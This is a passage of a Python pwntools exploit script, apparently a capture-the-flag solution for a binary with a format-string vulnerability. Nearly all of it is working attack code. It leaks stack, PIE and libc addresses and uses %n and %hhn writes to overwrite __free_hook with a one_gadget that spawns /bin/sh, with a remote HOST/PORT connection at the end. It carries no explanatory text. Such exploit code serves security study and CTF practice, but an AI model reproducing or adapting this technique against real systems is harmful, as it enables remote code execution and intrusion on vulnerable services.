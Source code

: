 ```py
    payload = '%{}c%11$hhn'.format((n & 0xFFFF) + 0x10000)
    payload = payload.ljust(0x18, 'A')
    payload += p64(addr)
    r.send(payload)
    r.recv()

def write64(addr, n, b=8):
    if b == 8:
        for _ in range(8):
            write8(addr, n)
            n >>= 8
            addr += 1
    elif b == 16:
        for _ in range(64/16):
            write16(addr, n)
            n >>= 16
            addr += 1

def exploit():
    payload  = '%12$p;%14$p;%15$p\n\x00'
    r.sendafter('? ', payload)
    r.recvuntil(', ')
    
    stack, pie, __libc_start_main_ret = map(hex2int, r.recvline(0).split(';'))
    stack -= 0x114
    pie -= 0x12b0
    libc.address = __libc_start_main_ret - libc.sym['__libc_start_main'] - 0xF3
    
    info('stack %x' % stack)
    info('pie %x' % pie)
    info('libc %x' % libc.address)

    payload = '%16777215c%11$n'
    payload = payload.ljust(0x18, 'A')
    payload += p64(stack + 1)
    r.sendafter('? ', payload)

    # 0xc9cfa execve("/bin/sh", r12, r13)
    # constraints:
    #   [r12] == NULL || r12 == NULL
    #   [r13] == NULL || r13 == NULL

    # 0xc9cfd execve("/bin/sh", r12, rdx)
    # constraints:
    #   [r12] == NULL || r12 == NULL
    #   [rdx] == NULL || rdx == NULL

    # 0xc9d00 execve("/bin/sh", rsi, rdx)
    # constraints:
    #   [rsi] == NULL || rsi == NULL
    #   [rdx] == NULL || rdx == NULL

    # 0xe7e2b execve("/bin/sh", rsp+0x60, environ)
    # constraints:
    #   [rsp+0x60] == NULL
    one_gadget = libc.address + 0xe7e2b
    write64(libc.sym['__free_hook'], one_gadget)
    r.send('%65537c')

if __name__ == '__main__':
    if len(sys.argv) > 1:
        r = remote(HOST, PORT)
        libc = ELF('libc64_2.29.so', checksec=0)
```